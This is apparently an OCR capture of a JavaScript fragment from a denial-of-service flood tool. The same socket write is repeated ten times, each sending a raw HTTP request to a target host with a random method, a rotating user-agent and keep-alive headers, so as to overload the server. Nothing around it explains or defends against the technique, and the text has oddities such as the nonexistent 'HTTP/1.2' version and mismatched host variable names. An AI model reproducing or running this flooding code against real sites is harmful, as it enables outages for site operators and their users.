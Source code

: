 s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
   